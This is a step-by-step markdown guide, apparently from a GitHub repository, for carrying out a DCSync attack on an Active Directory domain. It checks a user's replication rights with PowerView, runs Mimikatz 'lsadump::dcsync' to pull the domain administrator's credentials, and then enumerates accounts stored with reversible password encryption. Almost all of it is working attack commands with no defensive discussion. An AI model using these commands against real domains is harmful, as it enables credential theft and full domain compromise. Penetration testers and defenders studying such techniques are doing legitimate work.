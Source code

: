 ```yaml
---
legal-banner: true
---
```


### **STEP 1. DEFINE USER' SID AND CHECK REPLICATION RIGHTS**

1.  Import the PowerView module :  
    `Import-Module PowerView`
    
2.  View the group membership of the user (e.g., user adunn):  
    `Get-DomainUser -Identity [USERNAME] | select samaccountname, objectsid, memberof, useraccountcontrol | fl`
    
3.  Define the user's SID (Security Identifier). Replace the placeholder SID with the actual SID of the user you are investigating:  
    `$sid = "S-1-5-21-1234567890-9876543210-4567891230-5678"`
    
4.  Check if the user has replication rights for the specified domain:
    

```Powershell
Get-ObjectAcl -Identity "DC=EXAMPLE,DC=LOCAL" -ResolveGUIDs |
    Where-Object { ($_.ObjectAceType -match 'Replication-Get') } |
    Where-Object { $_.SecurityIdentifier -match $sid } |
    Select-Object AceQualifier, ObjectDN, ActiveDirectoryRights, SecurityIdentifier, ObjectAceType | fl

```

### **STEP 2. PERFORMING THE DCSYNC ATTACK**

5.  Open a PowerShell session as the user with DCSync privileges:  
    `runas /netonly /user:EXAMPLE\[USERNAME] powershell`
6.  Run Mimikatz:  
    `.\mimikatz.exe`
7.  Enable debug privileges:  
    `mimikatz # privilege::debug`
8.  Execute DCSync:  
    `mimikatz # lsadump::dcsync /domain:EXAMPLE.LOCAL /user:EXAMPLE\administrator`

### **STEP 3. ADDITIONAL ENUMERATION**

9.  Check if user accounts with the reversible encryption option enabled:

```Powershell
Get-DomainUser -Identity * | 
    ? { $_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*' } | 
    select samaccountname, useraccountcontrol
```

10. Enumerate accounts with reversible encryption using Get-ADUser:  
    `Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl`